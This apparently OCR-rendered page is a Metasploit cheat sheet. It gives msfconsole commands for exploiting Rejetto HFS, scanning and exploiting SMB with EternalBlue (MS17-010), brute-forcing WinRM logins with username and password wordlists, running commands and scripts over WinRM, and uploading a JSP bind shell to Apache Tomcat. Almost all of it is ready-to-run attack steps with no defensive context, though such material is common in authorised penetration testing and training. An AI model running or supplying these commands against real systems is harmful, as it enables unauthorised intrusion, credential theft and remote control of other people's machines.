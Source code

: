 **HFS**

```
# HFS
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
```

**SMB**

```
# SMB
search type:auxiliary EternalBlue
use auxiliary/scanner/smb/smb_ms17_010
use exploit/windows/smb/ms17_010_eternalblue
```

**WINRM**

```
# WinRM
search type:auxiliary winrm
use auxiliary/scanner/winrm/winrm_auth_methods

# Brute force WinRM login
search winrm_login
use auxiliary/scanner/winrm/winrm_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Launch command
search winrm_cmd
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME <USER>
set PASSWORD <PW>
set CMD whoami

search winrm_script
use exploit/windows/winrm/winrm_script_exec
set USERNAME <USER>
set PASSWORD <PW>
set FORCE_VBS true
```

**TOMCAT**

```
# APACHE TOMCAT
search type:exploit tomcat_jsp
use exploit/multi/http/tomcat_jsp_upload_bypass
check

set payload java/jsp_shell_bind_tcp
set SHELL cmd
run
```
